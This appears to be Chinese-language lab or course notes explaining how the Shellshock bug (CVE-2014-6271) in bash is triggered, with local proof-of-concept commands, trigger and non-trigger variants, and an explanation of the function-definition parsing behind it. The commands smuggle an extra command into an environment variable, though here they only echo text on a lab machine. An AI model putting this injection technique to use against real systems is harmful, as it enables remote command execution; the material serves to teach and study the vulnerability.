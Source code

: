 # 漏洞触发原理分析

## CVE-2014-6271

```bash
# 常规的本地漏洞利用PoC
env x='() { :;}; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() { :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"

# 以下几个“微变形”形态均 **无法触发** 漏洞
env x='(){ :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() {:; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='(){:; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='()   { :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"

# 以下几个“微变形”形态均 **可以触发** 漏洞
env x='() {    :; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() { whatever; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
env x='() { whatever ; }; echo vulnerable' /usr/local/bash-4.3.0/bin/bash -c "echo this is a test"
```

如上2个例子是在本地验证 ``bash`` 解释器是否受 ``CVE-2014-6271`` 影响的PoC。让我们分段理解这个漏洞触发的原理：

首先，在 Bash 中定义一个函数的标准方法如下：

```bash
function func_name() {
body;
}
```

其中，``function`` 和 ``func_name`` 均可以省略，而 ``函数体`` 的定义可以使用 ``:`` 来表示``什么都不执行``，类似于 ``python`` 里的 ``pass``。所以，``() {:;}`` 就是定义了一个空的匿名Bash函数。其中，``()``之间不能有空格，``() { ``需要用函数定义最严格的写法，不能随意增减``{``左右两边的空格（具体原因见以下Bash相关功能的源代码详解）。函数体内可以有多个空格，不影响代码定义。``;`` 是 Bash 的语句结束分隔符，单行 Bash 脚本通常会用到分号。``echo vulnerable`` 通过一个分号紧跟着 ``() {:;}`` ，所以相当于是单行Bash脚本先完成前一个匿名空函数定义，再执行一条打印语句。 ``env x='<value>'``的作用是将单引号内的内容当作普通文本赋值给环境变量 ``x`` 。

``/usr/local/bash-4.3.0/bin/bash -c "echo this is a test"`` 这里之所以使用 Bash 绝对路径，而不是直接使用 ``bash``，是因为在我们的靶机环境中，实际上有2个不同版本的Bash。其中，存在 ``shellshock`` 相关漏洞的Bash版本对应的就是这里的``/usr/local/bash-4.3.0/bin/bash``。如果直接使用 ``bash`` ，根据系统环境变量 ``$PATH`` 的设置，执行 ``bash`` 相当于执行的是 ``/bin/bash`` ，即已打了 ``shellshock`` 漏洞补丁的Bash。

接下来，我们直奔Bash源代码仓库，查看变更历史：http://git.savannah.gnu.org/cgit/bash.git/log/ ，CVE-2014-6271 作为 Shellshock 系列漏洞中第一个被曝光的，其修复时间是在 2014-09-25，因此，我们可以查看一下这次修补涉及到哪些源文件和代码。

![](attach/img/bash.git.log.png)

